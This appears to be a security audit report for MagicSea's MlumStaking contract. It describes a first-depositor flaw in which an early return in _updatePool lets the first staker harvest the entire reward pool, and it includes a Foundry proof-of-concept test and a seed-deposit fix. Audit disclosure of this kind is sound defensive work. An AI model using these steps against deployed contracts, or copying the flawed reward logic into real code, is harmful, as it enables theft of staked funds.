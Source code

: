 Warm Mint Swan

High

# The first position creator in `MLUMStaking` can take all the rewards

## Summary
Before each creation/change of a position or reward Harvest, updatePool is called, which should update accRewardPerShare for correct calculation of rewards. However, in the situation when stakedSupply == 0 - i.e. at the moment of the first deposit, accRewardPerShare is not updated, and the _updatePool function simply [return](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L581).

Thus, the first depositor gets a zero rewardDebt, which in turn makes [pendingReward = rewardToken.balanceOf(pool)](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L678)

Thus, the first depositor can withdraw all rewards from the protocol in a single transaction at minimal cost.
## Vulnerability Detail
A simple POC to the file MlumStaking.t.sol that shows that given two unequal deposits, the first depositor takes the entire reward from the protocol

```solidity
    function testFirstDepositorStealFunds() public {
        _rewardToken.mint(address(_pool), 100_000_000);
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 4 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 wei);
        _pool.createPosition(1 wei, 1 days);
        vm.stopPrank();

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 4 ether);
        _pool.createPosition(4 ether, 365 days);
        vm.stopPrank();

        skip(3600);

        vm.prank(ALICE);
        _pool.harvestPosition(1);

        assertLt(_rewardToken.balanceOf(address(_pool)), 2);
        assertGt(_rewardToken.balanceOf(ALICE), 100_000_000 - 2);
    }
```
## Impact
I haven't heard from the developers whether this behavior is expected, also the documentation doesn't say anything about it, but considering that the whole attack can be done in one transaction - `createPosition` and then immediately `harvestRewards`, I doubt that this behavior is expected.

Also, I didn't find any counter to this attack in the deploy script.

Score: High
## Code Snippet
```solidity
function _updatePool() internal {
....
    if (lastRewardBalance == rewardBalance || _stakedSupply == 0) {
            return;
    }
....
```
## Tool used

Manual Review

## Recommendation
Make your own first deposit of any size when you deploy the contract. 